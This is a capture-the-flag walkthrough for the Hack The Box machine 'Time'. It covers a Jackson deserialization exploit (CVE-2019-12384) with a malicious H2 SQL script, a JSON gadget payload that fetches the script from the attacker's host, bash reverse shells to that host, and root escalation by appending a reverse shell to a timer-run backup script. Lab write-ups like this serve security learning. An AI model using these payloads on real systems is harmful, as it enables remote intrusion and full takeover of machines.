

# [Time](https://app.hackthebox.com/machines/time)

```bash
nmap -p- --min-rate 10000 10.10.10.214
```


After finding open ports, (22,80). Let's do greater nmap scan.


```bash
nmap -A -sC -sV -p22,80 10.10.10.214
```


While we enter interesting value to Validate (!beta) section.


We see from problem that Jackson is used (Java).


Let's search some interesting stuff.
We find this library as repository on Github [link](https://github.com/FasterXML/jackson-databind)


We understand that it is CVE-2019-12384, I read this [article](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) for exploitation


1. We need to create malicous SQL file which executes reverse shell command.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.16.5/1337 0>&1"')
```

2. Then, open http server on location which malicious sql file is located.

```bash
python3 -m http.server --bind 10.10.16.5 80
```

3. Open listener

```bash
nc -lnvp 1337
```

4. Submit below value to input part.
```bash
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.5/dr4ks.sql'"}]
```

We submit payload into form.


Then we see that, dr4ks.sql file is requested.


While looking at listener, we see that we got reverse shellllllll.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



user.txt


After execution of linpeas.sh, I see that System timers is used and detect that is used, let's try to exploit this.


We see that 'web_backup.service' is also used, let's read this .

cat /etc/systemd/system/web_backup.service


There is **Bash script (/usr/bin/timer_backup.sh**) is used. 

Let's try to add reverse shell into bash script to be root user.

```bash
echo -e '\nbash -i >& /dev/tcp/10.10.16.5/1338 0>&1' >> /usr/bin/timer_backup.sh
```


root.txt

